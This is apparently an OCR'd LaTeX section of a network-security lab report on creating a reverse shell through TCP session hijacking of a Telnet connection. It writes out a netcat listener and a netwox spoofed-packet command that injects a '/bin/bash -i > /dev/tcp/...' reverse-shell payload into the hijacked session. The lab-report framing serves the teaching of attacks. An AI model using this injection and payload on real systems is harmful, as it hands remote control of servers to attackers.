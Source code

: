 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{Creating Reverse Shell Using TCP Session Hijacking}
\begin{par}This task follows up on injecting arbitrary code into spoofed TCP packets by executing a reverse shell, ultimately allowing the attacker to take control of the server. To perform a reverse shell, the attacker will need to open a Terminal console to listen to an incoming connection. The following code performs the abovementioned task.\end{par}
	\begin{verbatim}
	$ nc -l 9090 -v
	\end{verbatim}
	Again, we use Wireshark to analyse the next seqnum and acknum on the Telnet Data packet. From Figure \ref{fig:telnetinjectreverse}, we obtain the relevant details of the packet and execute the command to create a reverse shell.
\begin{figure}[H]
	\centering
	\texttt{[image: telnetinjectreverse]}
	\caption{Obtain Next seqnum \& acknum}
	\label{fig:telnetinjectreverse}
\end{figure}
\begin{verbatim}
# netwox 40 -g -i 0 -k 6 -G "" -E 254 -l 192.168.43.154 
-m 192.168.43.157 -o 49897 -p 23 -q 138267333 -r 688783074 -z -A 
-H "'/bin/bash -i > /dev/tcp/192.168.43.156/9090 0<&1 2>&1'0d0a" 
-j 64 -a "best"
\end{verbatim}
The executed command redirects the bash shell to the attacker's Terminal console and the system is now vulnerable, as can be seen in Figure \ref{fig:telnetinjectreversedone} where the \texttt{pwd} command reflects a different directory than when originally executed.
\begin{figure}[H]
	\centering
	\texttt{[image: telnetinjectreversedone]}
	\caption{Reverse Shell Obtained}
	\label{fig:telnetinjectreversedone}
\end{figure}
\end{document}
